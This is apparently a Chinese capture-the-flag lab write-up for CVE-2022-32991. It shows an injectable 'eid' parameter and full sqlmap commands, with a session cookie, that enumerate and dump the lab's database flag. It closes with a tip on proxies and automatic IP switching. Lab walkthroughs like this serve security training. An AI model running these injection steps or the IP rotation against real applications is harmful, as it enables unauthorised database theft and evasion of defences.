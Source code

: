 ### 春秋云镜（CVE-2022-32991）靶场操作流程

1. #### 进入靶场并注册登录

   进入靶场后，能看到登录和注册按钮。

   ![image-20250425204004014](./images/image-20250425204004014.png)

   点击注册按钮，填写用户名（如 123）、邮箱（如 123@123.com ）、密码、学院名称（如 123）后完成注册，接着进行登录操作。

   ![image-20250425204035334](./images/image-20250425204035334.png)

   ![image-20250425204110884](./images/image-20250425204110884.png)

2. #### 寻找注入点

   登录成功后，点击首页第一个 “Start” 按钮，此时首页出现 PHP 报错，可忽略。

   ![image-20250425204124799](./images/image-20250425204124799.png)

   ![image-20250425204142257](./images/image-20250425204142257.png)

   发现页面存在 GET 传参，尝试后确定参数 “eid” 存在注入点。例如访问：http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694%27&n=18t=34发现页面出现报错提示。

   ![image-20250425204200188](./images/image-20250425204200188.png)

3. #### 使用 sqlmap 进行注入检测

   由于之前进行了登录操作，需获取 Cookie。

   ![image-20250425204217300](./images/image-20250425204217300.png)

   使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid"检测参数 “eid” 是否存在注入。

   通过回显得知 “eid” 包含布尔注入、报错注入、时间盲注以及联合注入四种注入方式，且后端数据库管理系统为 MySQL。

   ![image-20250425204238880](./images/image-20250425204238880.png)

4. #### 获取数据库、表、字段及内容

   **获取数据库**：使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" --dbs，成功获取四个数据库。
   
   ![image-20250425204253211](./images/image-20250425204253211.png)
   
   **获取指定数据库中的表**：选择 “ctf” 数据库，使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" --tables，获取到 “ctf” 数据库中的 “flag” 表等 9 张表。
   
   ![image-20250425204300983](./images/image-20250425204300983.png)
   
   **获取指定表中的字段**：针对 “flag” 表，使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" -T "flag" --columns，发现 “flag” 表中有一个名为 “flag” 的字段。
   
   ![image-20250425204308738](./images/image-20250425204308738.png)
   
   **获取指定字段的内容**：使用命令python sqlmap.py -u "http://eci-2ze92nbl08w2mlsza1bj.cloudeci1.ichunqiu.com/welcome.php?q=quiz&step=2&eid=60377db362694&n=1&t=34" --cookie="PHPSESSID=f6s7epn3k5p830etf6lckketn1" --batch -p "eid" -D "ctf" -T "flag" -C "flag" --dump，成功获得 “flag” 字段中的内容，即得到 flag。
   
   ![image-20250425204314719](./images/image-20250425204314719.png)



##### 注意：

作者在攻击靶场的适合使用了代理，同时开启了IP自动切换。如果有人的sqlmap无法正常链接的时候可以参考作者的做法。
